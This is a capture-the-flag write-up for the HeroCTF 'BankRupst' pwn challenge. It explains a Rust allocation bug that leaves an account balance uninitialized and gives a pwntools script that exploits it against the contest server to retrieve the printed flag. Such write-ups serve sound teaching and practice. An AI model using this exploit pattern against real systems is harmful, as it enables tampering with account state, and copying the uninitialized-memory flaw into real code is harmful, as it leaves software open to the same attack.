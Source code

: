 https://ctftime.org/event/2496

# BankRupst (pwn)

BankRupst is a bank operating in bankruptcy where no laws are applicable.

nc pwn.heroctf.fr 6001

## Analysis

We can see in the following code that only `deposits` is set to zero. This means that `balance` retains its previous value:

```rust
unsafe fn new() -> *mut BankAccount {
    let layout = Layout::new::<BankAccount>();
    let ptr = alloc(layout) as *mut BankAccount;

    if ptr.is_null() {
        panic!("Memory allocation failed!");
    }

    (*ptr).deposits = 0;
    ptr 
}
```

## Solution

1) Deposit 1000
2) Exit using option 6
3) Deposit an addition 400
    - Note: that your balance will start at 1000
4) Check balance
    - Because you have more than 1337 you will get the flag

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./bankrupst", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("pwn.heroctf.fr", 6001)

p.sendlineafter(b"Choose an option: ", b"1")

for i in range(10):
    p.sendlineafter(b"Choose an option:", b"2")
    p.sendlineafter(b"deposit?", b"100")

p.sendlineafter(b"Choose an option: ", b"6")

p.sendlineafter(b"Choose an option: ", b"1")

for i in range(4):
    p.sendlineafter(b"Choose an option:", b"2")
    p.sendlineafter(b"deposit?", b"100")

p.sendlineafter(b"Choose an option: ", b"4")

p.readuntil(b"member!\n")

log.success(p.readline().decode()) # Hero{B4nkk_Rupst3dDd!!1x33x7}
```

## Flag
`Hero{B4nkk_Rupst3dDd!!1x33x7}`

smiley 2024/10/27
